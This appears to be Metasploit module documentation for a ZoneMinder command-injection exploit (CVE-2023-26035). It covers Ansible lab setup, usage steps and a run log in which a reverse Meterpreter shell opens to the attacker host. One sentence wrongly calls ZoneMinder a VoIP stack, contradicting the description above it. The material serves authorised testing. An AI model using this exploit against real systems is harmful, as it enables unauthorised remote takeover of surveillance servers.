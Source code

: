 ## Description

This module exploits a command injection that leads to a remote execution in ZoneMinder surveillance software versions before 1.36.33 and before 1.37.33

More about the vulnerability detail: [2023-26035](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26035).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by sending a sleep command.


## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:

* 1.36.31~64bit on Debian 11

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/tree/1.36.31)
* [Installers](https://zoneminder.readthedocs.io/en/stable/installationguide/index.html)

**The 3rd party debian-repository has packages for the vulnerable versions(for example zoneminder=1.36.31-bullseye1)**

### Ansible Installation

This exploit was tested using [a debian bullseye cloudimage](https://cloud.debian.org/images/cloud/bullseye/20210814-734/)
with the following ansible-roles:

```yaml
roles:
  - src: https://github.com/ait-cs-IaaS/atb-ansible-zoneminder.git
    version: v1.2
    name: zoneminder
  - src: https://github.com/ait-cs-IaaS/atb-ansible-debiansnapshot.git
    version: v1.2
    name: debiansnapshot
  - src: https://github.com/ait-cs-IaaS/ansible-mariadb.git
    version: v1.0.0
    name: mariadb
  - src: https://github.com/ait-cs-IaaS/ansible-apache2.git
    version: v1.3
    name: apache2
```

Zoneminder was deployed using the following playbook:

```yaml
- name: Install old Debian-Archive-Repo Host
  hosts: all
  remote_user: debian
  become: true
  vars:
    debsnap_timestamp: 20210815T082041Z
    debsnap_debrelease: bullseye
  roles:
    - role: debiansnapshot

- name: Install Videoserver Host
  hosts: all
  remote_user: debian
  become: true
  tasks:
    - name: Install Videoserver Packages
      ansible.builtin.apt:
          pkg:
            - vim
            - curl
            - netcat-traditional
          update_cache: yes

  roles:
          - role: mariadb
          - role: apache2
            vars:
              apache2_modules:
                - name: "headers"
                - name: "rewrite"
                - name: "expires"
                - name: "cgi"
              apache2_vhosts:
                - name: default
                  http: true
                  vhost_template: "redir.j2"
          - role: zoneminder
            vars:
              zoneminder_debrelease: bullseye
```

The following template-file("redir.j2") for apache2 redirects requests to the
zoneminder subdirectory:

```
<VirtualHost *:80>
	ServerName {{ item.name }}
{% if item.aliases is defined %}
	ServerAlias {{ item.aliases|join(' ') }}
{% endif %}
	DocumentRoot {{ apache2_vhost_dir }}/{{ item.name }}
        RedirectMatch ^/$ /zm/
	ErrorLog {{ apache2_vhost_dir }}/{{ item.name }}/log/error.log
	CustomLog {{ apache2_vhost_dir }}/{{ item.name }}/log/access.log combined

	<Directory "{{ apache2_vhost_dir }}/{{ item.name }}">
		Options FollowSymLinks MultiViews
		AllowOverride All
		Require all granted
	</Directory>
</VirtualHost>
```

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/zoneminder_snapshots`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### TARGETURI

Remote web path to the zoneminder installation (default: /zm/)

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Zoneminder 1.36.31-bullseye1

The following demo shows how to use the exploit with minimal settings:

```
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 192.42.1.188:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.249642733018845 seconds.
[+] The target appears to be vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:b5da21a154bc5f46cd2b3648fe9e44931dd74bac,1697109606
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 192.42.0.254
[*] Meterpreter session 1 opened (192.42.1.188:4444 -> 192.42.0.254:56398) at 2023-10-12 11:20:07 +0000
[+] Payload sent

meterpreter >
```
